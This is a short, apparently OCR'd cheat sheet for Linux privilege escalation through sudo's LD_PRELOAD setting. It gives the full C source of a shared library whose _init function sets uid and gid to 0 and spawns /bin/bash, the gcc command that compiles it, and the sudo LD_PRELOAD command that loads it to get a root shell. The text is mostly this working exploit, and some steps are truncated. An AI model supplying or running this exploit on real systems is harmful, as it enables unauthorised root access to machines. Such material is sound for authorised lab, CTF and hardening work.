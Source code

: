 loading before running library

1. run sudo -
2. you should see LD_PRELOAD under

![file:///tmp/.P4RB62/1.png](file:///tmp/.P4RB62/1.png)


<h3>make a malicious library</h3>
1. make a malicious library
2. compile it 
	``gcc -fPIC -shared -o shell.so shell.c -nostartfiles``

**source code:**
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init( ) {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/bash");
}
```

![file:///tmp/.P4RB62/2.png](file:///tmp/.P4RB62/2.png)

**run**

1. ls the directory where you saved it
2.  ``sudo LD_PRELOAD=directory/of/shell.so (add the no passwd command)``
![file:///tmp/.P4RB62/3.png](file:///tmp/.P4RB62/3.png)

